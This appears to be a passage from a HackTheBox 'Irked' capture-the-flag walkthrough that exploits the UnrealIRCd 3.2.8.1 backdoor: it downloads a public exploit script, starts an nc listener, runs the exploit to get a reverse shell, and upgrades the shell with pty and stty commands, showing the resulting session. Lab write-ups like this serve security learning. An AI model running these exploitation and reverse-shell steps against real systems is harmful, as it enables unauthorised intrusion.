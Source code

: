 ```
---------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

```

Since it was metasploit module, we try google  `UnrealIRCd Backdoor Command Execution` ,and find this https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor , we download the python script from it.

```bash
wget https://raw.githubusercontent.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/master/exploit.py
```

change this content of exploit.py
```
# Sets the local ip and port (address and port to listen on)
local_ip = '10.10.14.5'  # CHANGE THIS
local_port = '1234'  # CHANGE THIS 
```

```bash
nc -lvp 1234
```

```bash
python3 exploit.py 10.10.10.117 8067 -payload python
```

```
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Irked]
└─$ python3 exploit.py 10.10.10.117 8067 -payload python

```

Excllent! we will get the shell. 

#### Upgrade the shell

```bash
# https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/
python3 -c 'import pty; pty.spawn("/bin/bash")'
^z
echo $TERM
stty -a
stty raw -echo && fg
# nc -lvp 1234
reset
xterm-256color
stty rows 47 columns 176
```

and try to type the flag:

```bash
┌──(kali㉿kali)-[~/Desktop/HackTheBox/Irked]
└─$ stty raw -echo && fg
[1]  + continued  nc -lvp 1234
                              reset
reset: unknown terminal type unknown
Terminal type? xterm-256color
ircd@irked:~/Unreal3.2$ whoami
ircd
ircd@irked:~/Unreal3.2$ id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
ircd@irked:~/Unreal3.2$ pwd         
/home/ircd/Unreal3.2
ircd@irked:~/Unreal3.2$ ls
aliases                config.sub          install-sh      networks
```